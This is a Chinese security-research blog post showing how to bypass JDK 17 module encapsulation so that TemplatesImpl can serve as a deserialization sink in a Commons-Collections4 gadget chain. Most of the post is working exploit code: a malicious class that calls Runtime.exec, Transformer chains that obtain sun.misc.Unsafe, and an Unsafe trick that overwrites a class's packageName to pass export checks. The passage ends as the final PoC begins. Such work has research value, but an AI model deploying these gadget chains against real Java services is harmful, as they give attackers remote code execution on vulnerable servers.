










# jdk17&CC链绕过模块检测利用TemplatesImpl-先知社区

> **来源**: https://xz.aliyun.com/news/18628  
> **文章ID**: 18628

---

瓦达西：**Jiecub3**

# 0x01 前言

> 起因看到一篇文章说jdk17因为`强封装（模块化）`，利用不了`TemplatesImpl`来作为反序列化的sink点了，于是去试了下。起初先写了个小demo，发现可以调用呀（就是不是完全调用不了），然后就想搞一条完整的链子，然后这里选择的是CC4，因为他最后sink点就是`TemplatesImpl`,当然CC6，CC7，CC5改改应该也可以（CC5起点也要换），但是我懒就直接用CC4了。在jdk17 `Module`模式下，CC6可以直接套一层Unsafe就能直接rce了，但是实现`加载字节码`可以做更多事，于是俺研究了下，也是解决重重困难实现了最后的利用！

## **环境**

* jdk17.0.8
* pom.xml

```
<dependencies>
  <dependency>
    <groupId>javassist</groupId>
    <artifactId>javassist</artifactId>
    <version>3.12.1.GA</version>
  </dependency>

  <dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
  </dependency>
</dependencies>
```

**jdk17 模块检测**

> 早在jdk9就开始了`模块化`，但是真正实施是在jdk17。`模块化`简单理解将就是 java为了安全有一些类不想让你直接调用，但是java模块里面的类又需要相互调用，所以`反射`和`new一个对象`的时候会对`调用类`和`被调用类`进行一个`模块检测`（这里不只是检测调用和被调用类的`模块关系`，还有其他判断），好这里我们大概有个概念，jdk17 会进行`模块检测`

# 0x02 初见端倪

先来看个小demo，这里需要用到`Unsafe`，不懂的同学可以先看看这个，简单说`Unsafe`这里是用来`修改我们调用类的模块`，从而绕过模块检测。

Unsafe是一个偏底层的函数，我们这里是通过找到`Field的地址`，然后修改其指向我们设置的值

### TemplatesImpl test

```
import javassist.ClassPool;
import javassist.CtClass;
import sun.misc.Unsafe;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class test_17 {
    public static void main(String[] args) throws Exception {
        System.out.println(Class.class.getModule().getName());
        ClassPool pool = ClassPool.getDefault();
        ClassLoader appClassLoader = ClassLoader.getSystemClassLoader();
        pool.insertClassPath(new javassist.LoaderClassPath(appClassLoader));
        CtClass clazz = pool.get("eval");
        byte[] code = clazz.toBytecode();
        CtClass clazz2 = pool.get(Evil.class.getName());
        byte[] code2 = clazz2.toBytecode();
        System.out.println(Base64.getEncoder().encodeToString(code));

        Class<?> aClass = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        patchModule(test_17.class,aClass);
        System.out.println(test_17.class.getModule().getName());
        Object o = aClass.getDeclaredConstructor().newInstance();
        setFiled(o,"_name","111");
        setFiled(o,"_bytecodes",new byte[][]{code,code2});
        setFiled(o,"_transletIndex",0);

        //setFiled(o,"_auxClasses",new HashMap<>());

        FileOutputStream fos = new FileOutputStream("bin");
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(o);
        oos.close();

        patchModule(test_17.class,eval.class);
        System.out.println(test_17.class.getModule().getName());
        // 从文件中反序列化对象
        FileInputStream fis = new FileInputStream("bin");
        ObjectInputStream ois = new ObjectInputStream(fis);
        Templates o1 = (Templates) ois.readObject();
        o1.getOutputProperties();
        ois.close();
    }

    private static void patchModule(Class clazz,Class goalclass){
        try {
            Class UnsafeClass = Class.forName("sun.misc.Unsafe");
            Field unsafeField = UnsafeClass.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe)unsafeField.get(null);
            Object ObjectModule = Class.class.getMethod("getModule").invoke(goalclass);
            Class currentClass = clazz;
            long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.getAndSetObject(currentClass,addr,ObjectModule);
        } catch (Exception e) {
        }
    }

    public static void setFiled(Object templates, String name, Object values) throws IllegalAccessException, NoSuchFieldException {
        Field declaredField = templates.getClass().getDeclaredField(name);
        declaredField.setAccessible(true);
        declaredField.set(templates,values);
    }
}
```

demo中在`反射前`执行`patchModule(test_17.class,aClass);`修改模块，然后反序列化后调用`getOutputProperties`触发sink，然后这里生成`bin文件`后，注释掉前面代码，执行`readobject`是可以执行成功的。这里我就感觉好像跟我想的有点不一样了，我之前看一篇文章以为只要`实例化类`就会进行`模块的检测`。但是很显然这里肯定没有。

# 0x03 构造

然后就开始尝试构造了

### 1.eval.class

> 首先是恶意类，这里我没有继承`AbstractTranslet`，因为有`模块检测`那个东西，反正我当时很多报错，我就直接删了，这里分析代码可以用另一种方法代替

```
import java.io.IOException;

public class eval {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    public Class<?> getSuperclass(){
        return eval.class;
    }
}
```

**尝试**

开始尝试过重写`getSuperclass()`方法绕过if判断，后面发现重写不了这个，原因应该是：这里`_class[i]`属于`Class`对象，然后`Class是final不让继承`，然后也就重写不了了



**解决**

那么这里会进入`else`，`_auxClasses`正常是`null`所以这里会空指针报错。但是这个值不能`反射设置`，这个值最后还是属于`Hashtable`，但是`Hashtable`不继承`Serializable`。那就看那些地方会对这个值进行`赋值`，看我们能不能调用到



发现就在`defineTransletClasses()`上方就有，只要`_bytecodes.length>1`就行，ez很好满足



```
setFiled(templates,"_bytecodes",new byte[][]{code,code2});
```

这样设置就解决了，然后以为套一层Unsafe就能实现时，最大的问题来了

## 2. boss newInstance

在transform最后调用点，`TrAXFilter`的实例化是通过`newInstance`实现，而这个属于反射，这里会进行`模块检测`！！！



起初在poc中写句`patchModule(invokerTransformer.getClass(),aClass);`（aClass就是TrAXFilter.class），可以成功调用，但是下意识就反应到这是本地，客户端和服务端是一体的。相当于这个也修改了`服务端invokerTransformer`的模块hhh。

然后这里沉思了下，能不能通过CC链中`Transformer[]`的构造执行`patchModule()`中的代码（Unsafe那块代码，修改模块），`修改完模块`然后再调用CC4后面的sink，然后拼接到一个`Transformer[]`里面进行利用

然后看了下`ConstantTransformer`，发现返回的对象，和接收`input`没半毛钱关系，所以上面想法是可行的

```
public O transform(final I input) {
        return iConstant;
    }
```

### 2.1 怎么实现Unsafe

说干就干，慢着，你是说用`invokerTransformer`来实现下面这段代码？

```
private static void patchModule(Class clazz,Class goalclass){
        try {
            Class UnsafeClass = Class.forName("sun.misc.Unsafe");
            Field unsafeField = UnsafeClass.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe)unsafeField.get(null);
            Object ObjectModule = Class.class.getMethod("getModule").invoke(goalclass);
            Class currentClass = clazz;
            long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.getAndSetObject(currentClass,addr,ObjectModule);
        } catch (Exception e) {
        }
    }
```

我们化简，也就要执行`unsafe.getAndSetObject(currentClass,addr,ObjectModule);`这句代码

那就要好好理解`invokerTransformer.transform`中的逻辑了

```
public O transform(final Object input) {  //化简下
    final Class<?> cls = input.getClass();
    final Method method = cls.getMethod(iMethodName, iParamTypes);
    return (O) method.invoke(input, iArgs);
```

#### **尝试**

1. 那我们能不能直接`传个Unsafe对象`呢？no

Unsafe不能反序列化

1. 后面想到`getRuntime`,然后去看发现有`getUnsafe`可以获得Unsafe对象

> 但是其实用不了hhh，不然干嘛还通过反射获得Unsafe对象嘛hhh。该方法还有`@CallerSensitive`这个注释会对调用者的`classLoader`进行检查，判断当前类是否由`Bootstrap classLoader`加载，如果不是的话就会抛出一个`SecurityException`异常。

1. 因为受到Runtime的构造和`final Class<?> cls = input.getClass();`这句代码的影响，我一直觉得要得到Unsafe对象才能进行调用。因为你传入的`Unsafe.class`经过`input.getClass()`，都会变成`Class.class`，会没有用的。我这里一度以为无解了hhh

后面我一直看代码，发现getRuntime费那么大劲是因为`Class`没这个方法，但是有`getDeclaredField`，`setAccessible`这些方法。而Runtime对象也是为了exec的调用，并不是前面就要有对象才能调用。而且前面调用(`Field unsafeField = UnsafeClass.getDeclaredField("theUnsafe");`)本来就是通过`Unsafe.class`调用的，而不是Unsafe对象调用的，怎么就不能调用了？

1. 这个想法通过尝试发现是可以，但是又有个问题

```
unsafeField.setAccessible(true);
Unsafe unsafe = (Unsafe)unsafeField.get(null);
```

`theUnsafe`是`private`，**setAccessible**这个调用不能少，就意味着`unsafeField`这个Filed对象得`被调用两次`，但是这在`invokerTransformer`中怎么可能实现呢？于是我想了能不能在外面执行`unsafeField.setAccessible(true);`，然后把`unsafeField`传到`invokerTransformer`中，其实不行`Field`也不继承`Serializable`啊，想p吃呢hhh

#### **解决**

然后又思考了片刻，如果靠链子解决的话，那大概需要一个这样的结构吧

```
public T transform(final T input) {
        iTransformer.transform(input);
        return input;
    }
```

这里`iTransformer.transform(input);`去执行`unsafeField.setAccessible(true);`这段内容，执行完后还能返回之前的对象，后面正常调用。这样大概就能`实现同一个对象被调用2次了！`

然后我就去找实现`transform`方法的类，其实不多，但是找下来基本上没什么吊用？但是注意到有一些类有`execute`，`evaluate`方法，但是实现`transform`方法的类里面又没看到那个对这个两个方法进行了调用。这里稍微有点蹊跷了，然后又去网上找了下思路，就看到之前CC改编的一些链子。然后看到一个对`create()`方法的调用，然后这个类其实没实现transform，但是他有`create()`。这里我也有点感觉了那`execute`，`evaluate`方法也很有可能是想用一个包下的类，于是我就去这个包下面一通找，hhh如果让我发现了点什么hhh



我之所以会有上面这个想法，也是找`transform()`方法的时候，看到下面这两个调用，就很符合我的思路（`看代码注释！`）

```
ClosureTransformer
public T transform(final T input) {
        iClosure.execute(input);     //只要execute中可以控制调用transform，即可
        return input;
    }
    
IfTransformer
public O transform(I input) {
        return this.iPredicate.evaluate(input) ? this.iTrueTransformer.transform(input) : this.iFalseTransformer.transform(input);
    //因为这里是三元表达式，所以其实会执行两句代码
    //所以这里 evaluate(input) 可以控制调用transform，即可
    }
```

然后其实感觉找到了很多可以用的。先写比较麻烦的吧，因为好用的都是后面才遇到wwww(调用想法就写到代码注释里吧方便点

##### 找到的一些类

```
ComparatorPredicate
public boolean evaluate(final T target) {

        boolean result = false;
        final int comparison = comparator.compare(object, target);//这里是看到了compare，然后CC4这条链子也是有这个调用点，然后想能不能通过这里调用到transform，看了下compare()相关代码感觉是可行的但是有点麻烦
        switch (criterion) {
        case EQUAL:
            result = comparison == 0;
            break;
        case GREATER:
            result = comparison > 0;
            break;
        case LESS:
            result = comparison < 0;
            break;
        case GREATER_OR_EQUAL:
            result = comparison >= 0;
            break;
        case LESS_OR_EQUAL:
            result = comparison <= 0;
            break;
        default:
            throw new IllegalStateException("The current criterion '" + criterion + "' is invalid.");
        }

        return result;
    }
```

```
EqualPredicate
public boolean evaluate(final T object) {
        if (equator != null) {
            return equator.equate(iValue, object); 
        } else {
            return iValue.equals(object);//这个是想到CC有equals也有相关的链子，transform，感觉有就记录了
        }
    }
```

##### 比较好用的

```
TransformerPredicate
public boolean evaluate(final T object) {
        final Boolean result = iTransformer.transform(object);//这个需要有结果，但是setAccessible返回是void，所以这个可能用不了
        if (result == null) {
            throw new FunctorException(
                    "Transformer must return an instanceof Boolean, it was a null object");
        }
        return result.booleanValue();
    }


```

**好用的**

```
TransformedPredicate
public boolean evaluate(final T object) {
        final T result = iTransformer.transform(object); //这里不就完美了么hhh
        return iPredicate.evaluate(result);
    }

TruePredicate
public boolean evaluate(final T object) {
        return true;    //这个控制下iPredicate.evaluate(result);结果，增加链子稳定性
    }
```

**最好用的**

这个是我唯一记录的一个`execute`方法的，但确实最好用的www，不是哥们？你直接就是`梦中情execute`

```
TransformerClosure
public void execute(final E input) {
        iTransformer.transform(input); 
    }
```

##### demo

那么我最后选择了这套组合

```
ClosureTransformer
public T transform(final T input) {
        iClosure.execute(input);
        return input;
    }
    
TransformerClosure
public void execute(final E input) {
        iTransformer.transform(input);
    }
```

可以成功得到`Unsafe对象`，nice捏，这里我就直接拿我测试的poc了

```
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.*;
import sun.misc.Unsafe;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class test {
    public static void main(String[] args) throws Exception {
        Class UnsafeClass = Class.forName("sun.misc.Unsafe");
        Field unsafeField = UnsafeClass.getDeclaredField("theUnsafe");
        unsafeField.setAccessible(true);
        Unsafe unsafe = (Unsafe)unsafeField.get(null);
        Class<?> TrAXFilter = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter");
        Object ObjectModule = Class.class.getMethod("getModule").invoke(TrAXFilter);
        long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("packageName"));
//
//        System.out.println(addr);
//        System.out.println(Class.class.getModule().getClass());
//        System.out.println("1111"+TrAXFilter.getPackageName());
//        unsafe.getAndSetObject(TrAXFilter,addr,"javax.xml");
//        System.out.println(Class.class.getDeclaredField("packageName"));
//        System.out.println(ObjectModule);
//        System.out.println(ObjectModule.getClass().getName());
//        Class<?> TrAXFilter2 = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter");
//        System.out.println("222"+TrAXFilter2.getPackageName());


//        final Class<?> cls = input.getClass();
//        final Method method = cls.getMethod(iMethodName, iParamTypes);
//        return (O) method.invoke(input, iArgs);

//        InvokerTransformer invokerTransformer4 = new InvokerTransformer("getAndSetObject",new Class[]{Object.class,long.class,Object.class}, new Object[]{Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter"),60,"javax.xml"});
        InvokerTransformer invokerTransformer3 = new InvokerTransformer("get",new Class[]{Object.class}, new Object[]{null});
        InvokerTransformer invokerTransformer2 = new InvokerTransformer("setAccessible",new Class[]{boolean.class}, new Object[]{true});
        TransformerClosure transformerClosure = new TransformerClosure(invokerTransformer2);
        ClosureTransformer ClosureTransformer = new ClosureTransformer(transformerClosure);
        InvokerTransformer invokerTransformer = new InvokerTransformer("getDeclaredField",new Class[]{String.class}, new Object[]{"theUnsafe"});
        ConstantTransformer constantTransformer = new ConstantTransformer(UnsafeClass);
        Transformer[] transformers=new Transformer[]{constantTransformer,invokerTransformer,ClosureTransformer,invokerTransformer3};
        Transformer keyTransformer = new ChainedTransformer(transformers);


        FileOutputStream fos = new FileOutputStream("bin");
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(keyTransformer);
        oos.close();

        // 从文件中反序列化对象
        FileInputStream fis = new FileInputStream("bin");
        ObjectInputStream ois = new ObjectInputStream(fis);
        Transformer o1 = (Transformer) ois.readObject();
        ois.close();

//        System.out.println(Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter").getPackageName());
        Object transform = o1.transform(null);
        System.out.println(transform);
//        System.out.println(Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter").getPackageName());


    }
    private static void patchModule(Class clazz,Class goalclass){
        try {
            Class UnsafeClass = Class.forName("sun.misc.Unsafe");
            Field unsafeField = UnsafeClass.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe)unsafeField.get(null);
            Object ObjectModule = Class.class.getMethod("getModule").invoke(goalclass);
            Class currentClass = clazz;
            long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.getAndSetObject(currentClass,addr,ObjectModule);
        } catch (Exception e) {
        }
    }
}
```

### 2.2 Module

本以为最难的问题已经解决了，但是又用新的问题了wwww

后面其实就只是调用`unsafe.getAndSetObject`，他的参数都可以传然后调用。正当我这么想的时候突然一阵不好的预感

```
unsafe.getAndSetObject(currentClass,addr,ObjectModule);
```

这里`addr`是一个`long值`，可以直接传，但是`ObjectModule`是一个`Module类`啊，不能反序列化，而且也不能通过前面的`CC链transform`构造，因为你`构造出来也传不到参数的地方`吧！www，这截止比上一个更卡死，简直无解！

### 2.3 pn

没办法，只能抱着最后一丝希望去看看`newInstance`，是怎么进行`模块检测`的，看能不能通过其他方法绕过

然后调试 调试 调试 啊 发现起初就是这个地方给我们return false的



往下看，可以看到进行了`模块比较`，一样的话直接就会返回`true`


然后后面会进去到`Module`类，这里调用的是`被调用类（TrAXFilter）`的`Module.isExported`

然后跟到`implIsExportedOrOpen`，然后发现了这个`isNamed()`，这里代码意思是`被调用类没有模块名字`的话就直接返回`true`



那简单呀用Unsafe把`TrAXFilter`的`Module.name`改了不久行了，这个想法我起初也觉得快成了。但其实`Module`类做了防护，java不会让我们得到这个的类Field。`getDeclaredFields()`出来都是空的。

然后还想过能不能直接把`Module`设置成`null`呀，`null`能反序列化呀，其实纯扯，在进入`isExported`方法时其实就会报空指针错误！

然后第二个和第三个if都没希望的，`this==other`的话前面代码就返回true了，然后isOpen()是false

那只有最后点希望咯，跟进`isStaticallyExportedOrOpen`



上面那个if`openPackages`是null，根本操作不了，然后看到下面这个if

这个`exportedPackages`（猜测是记录一些经常会调用的package值，这些路径下的类`跳过`模块检测，相当于`白名单`）是一个Hashmap，会从这里面获取值，还记得这个pn是什么，是`被调用类的package值(com.sun.org.apache.xalan.internal.xsltc.trax)`,正常这里是没有对应的key，返回null的。

我们跟进`allows`，wc，发现`只要targets不为null`，怎么样都返回true啊啊啊啊（下图是我已经操作过的，targets会有值



也就是`pn`只要是`exportedPackages`中的`任意一个key`值不就行了，我们再回想下pn怎么来的

```
String pkg = memberClass.getPackageName();//pkg就是pn
return memberModule.isExported(pkg, currentModule);

Class.class中
public String getPackageName() {
        String pn = this.packageName;
        if (pn == null) {
            ...
        }
        return pn;
    }
```

可以看到就是Class类中`packageName`属性，这还不容易？，Class类中`module`属性，我都能改，还改不你了？

直接用Unsafe修改了`packageName`

# 0x04 poc

心心念念的poc呜呜呜

```
//import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
//import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.*;
import sun.misc.Unsafe;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.PriorityQueue;

public class CC4_17 {
    public static void main(String[] args) throws Exception {

